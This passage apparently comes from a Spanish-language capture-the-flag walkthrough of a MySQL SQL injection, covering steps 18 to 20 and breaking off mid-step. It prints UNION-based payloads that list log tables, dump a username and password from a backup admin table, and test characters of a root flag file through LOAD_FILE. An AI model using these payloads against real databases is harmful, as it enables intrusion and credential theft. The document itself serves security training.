 ```sql
' UNION SELECT 1, table_name, 3, 4, 5
  FROM information_schema.tables
  WHERE table_schema='mysql'
    AND table_name IN ('general_log','slow_log')-- -
```

**Resultado**:

```
general_log	3	4	5
slow_log	3	4	5
```

**Explicación**: Localizar logs puede permitir lectura indirecta de datos mediante consultas a las tablas de registros.

---

## Paso 19: Concatenar credenciales de `admin_bk`

**Query**:

```sql
' UNION SELECT 1,
  group_concat(username,':',password SEPARATOR ';'),
  3, 4, 5
  FROM backup.admin_bk-- -
```

**Resultado**:

```
admin:Inl@n3_fre1gh7_adm!n	3	4	5
```

**Explicación**: `group_concat` compacta múltiples filas en una sola cadena, útil para extraer rápidamente credenciales en un solo resultado.

---

## Paso 20: Blind SQLi para extraer bandera

**Ejemplo de bit testing**:

```sql
' UNION SELECT 1,
  IF(ASCII(SUBSTRING((SELECT LOAD_FILE('/root/flag.txt')),1,1)) = 100,'V','F'),
  3,4,5-- -
```

**Resultado**:

```
F	3	4	5
```

**Longitud**:
